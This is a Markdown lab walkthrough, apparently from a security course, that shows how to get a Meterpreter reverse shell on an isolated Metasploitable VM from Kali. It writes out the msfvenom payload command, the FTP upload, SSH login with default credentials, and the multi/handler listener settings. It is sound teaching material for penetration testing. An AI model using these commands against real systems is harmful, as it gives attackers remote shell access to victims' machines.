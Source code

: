 - [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to establish a reverse shell on a Linux target using Msfvenom and Metasploit.

**Lab Purpose:**

Msfvenom is a command line instance of Metasploit that is used to generate payloads and can also encode them. How payloads are produced for different purposes is explained in detail in lab 74. It is recommended that you look there for more information.

The Metasploit framework is a powerful tool which can be used to probe systematic vulnerabilities on networks and servers. It provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

**Lab Tool:**

Kali Linux and Metasploitable VM.

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware, the same as Kali Linux. You can download the metasploitable iso file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the Metasploitable VM.

![](attachements/75-1.png)

We will use both Kali Linux and Metasploitable for this lab. Remember to put both machines on the same isolated host-only network to talk to each other. When login is required, you will enter “**msfadmin**” as username and password.

### Task 2:

Both msfvenom and metasploit come pre-installed on Kali. We can view the help screen for both tools by typing the following into our terminal:

msfvenom

msfconsole

In this lab, we will be generating a reverse shell payload using “msfvenom” and then using Metasploit to establish a listener. The goal is to establish a shell on our Metasploitable VM.

### Task 3:

To begin, we will first need to create a payload for our Metasploitable VM. To do this, we will use the following command:

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=5555 -f elf -o reverse-sh.elf

![](attachements/75-2.png)

192.168.56.103 is the IP address of our Kali VM in this instance.

Once this is done, type “file reverse-sh.elf ” in your terminal and you should see details of the payload file you just created in your home directory.

### Task 4:

In this step, we will somehow place the payload file on the target machine. Make sure Metasploitable VM is up and running. In this case, we will be transfering the file through FTP. To do this, open a terminal in Kali VM and type the following (1):

ftp 192.168.56.102

192.168.56.102 is the IP address of our Metasploitable VM in this instance. When asked, enter msfadmin as the username and password (2).

We will use the “put“command in FTP to send the payload file to the target machine (3). Next, to the “put” command; we will write the name of the payload file which is “reverse-sh.elf” in this case. After the transfer is complete, let’s make sure that the payload file is at the target location by typing “ls” (4). Finally, we end the FTP session by typing “by” (5).

![](attachements/75-3.png)

Our evil binary file has been placed on the victim machine now.

### Task 5:

We then need to make this file executable on our Metasploitable VM. In our Kali terminal screen, type the following (1):

ssh [msfadmin@192.168.56.102](mailto:msfadmin@192.168.56.102)

Type yes when asked if you are sure you want to connect to this host. Then, type msfadmin for the password when prompted (2). We are now connected to our Metasploitable VM through SSH.

![](attachements/75-4.png)

We can now make the payload executable by typing the following (3):

chmod +x reverse-sh.elf

Once this is done, leave the SSH connection to our Metasploitable VM open, and open a new terminal. We will now need to establish the listener for the reverse connection which our payload will be sending to our machine.

### Task 6:

To establish the listener, we will be using Metasploit. Start the tool by typing the following in Kali VM:

msfconsole

Then, type the following command to specify that we want to use a listener (1):

use exploit/multi/handler

Once the multi/handler is selected, we need to specify three things: the local host, the local port, and the payload type. We can do this by typing the following commands into the terminal (2,3,4):

set lhost 192.168.56.103  
set lport 5555  
set payload linux/x86/meterpreter/reverse_tcp

Once these commands are entered, you can then type “run” to start the listener (5). You should see

![](attachements/75-5.png)

something like the following screenshot.

### Task 7:

Finally, we can execute the payload on our target. Navigate back to terminal screen with the established SSH connection. Then, type the following:

./reverse-sh.elf

Once you hit enter, return to the terminal screen which is running the Metasploit listener. You will see a meterpreter session has started and is now open (1). We have sucessfully established a stable shell! We can access the shell by typing “shell” into meterpreter (2). We can return to the Meterpreter interface from the shell by typing “exit” into the shell.

![](attachements/75-6.png)